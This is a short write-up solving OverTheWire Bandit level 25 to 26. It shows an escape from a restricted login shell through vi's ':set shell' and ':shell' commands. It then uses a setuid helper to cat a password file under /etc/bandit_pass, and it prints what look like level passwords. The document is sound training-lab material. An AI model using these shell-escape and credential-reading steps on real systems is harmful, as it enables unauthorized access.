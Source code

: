 <h1>Bandit 25 &#x2192; Bandit 26 </h1>

<h2 id="level-goal">Level Goal</h2>
<p>Logging in to bandit26 from bandit25 should be fairly easy…
The shell for user bandit26 is not <strong>/bin/bash</strong>, but something else.
Find out what it is, how it works and how to break out of it.</p>

<h2 id="commands-you-may-need-to-solve-this-level">Commands you may need to solve this level</h2>
<p>ssh, cat, more, vi, ls, id, pwd</p>


<h1>Solution</h1>

```
user@host:~$ ssh bandit26@bandit.labs.overthewire.org -p 2220
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```

So we know this does not work because we get logged out immediately. We need to go back to level 25, resize the terminal again, log into bandit 26 again and try to obtain a shell.

```
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
v
:set shell ?
    shell=/usr/bin/showtext
:set shell=/bin/bash
:set shell ?
    shell=/bin/bash
:shell
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ file bandit27-do
bandit27-do: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8e941f24b8c5cd0af67b22b724c57e1ab92a92a1, not stripped
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
```

[bandit level 25](25.md)
[bandit level 27](27.md)
